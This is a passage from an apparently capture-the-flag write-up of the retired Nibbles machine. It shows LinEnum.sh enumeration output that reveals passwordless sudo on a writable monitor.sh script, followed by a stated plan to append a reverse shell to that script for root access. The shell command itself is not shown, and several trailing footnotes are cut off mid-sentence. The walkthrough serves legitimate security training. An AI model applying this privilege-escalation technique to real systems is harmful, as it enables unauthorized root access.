 ```terminal
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x LinEnum.sh
```

And then we kick it off:

```terminal
nibbler@Nibbles:/home/nibbler/personal/stuff$ ./LinEnum.sh

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.982

[-] Debug Info
[+] Thorough tests = Disabled


Scan started at:
Mon Apr 21 18:27:34 EDT 2025


### SYSTEM ##############################################
[-] Kernel information:
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
<SNIP>
```

The script spits out a _lot_ of information. It's good to go through it all to see what
 might be useful. Thankfully, `LinEnum.sh` helps with that by indicating important finds
 with [+] marks (and color, if your terminal is configured for that). We find that the
 `nibbler` user is allowed to run `sudo` without a password:

```terminal
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```

Looks like that `monitor.sh` script is going to be very useful! With the ability to run
 the script as `root` via `sudo`, we can create a reverse shell as `root`!

### Escalating Privileges

We can use the code from earlier to generate a reverse shell and add it to the end of the
 `monitor.sh` script[^bak]:


[^nibbles]: Nibbles is a retired machine, which means it has publicly available walkthroughs
[^wsl2]: Open a Powershell window (running as admin) and create a port proxy
[^habits]: There are some red team exercises where you want to gain access as quickly as
[^bak]: Notice that the first command here creates a backup of the `monitor.sh` script. We
[^sudo]: Notice that we have to specify the full path. When trying to use the relative path,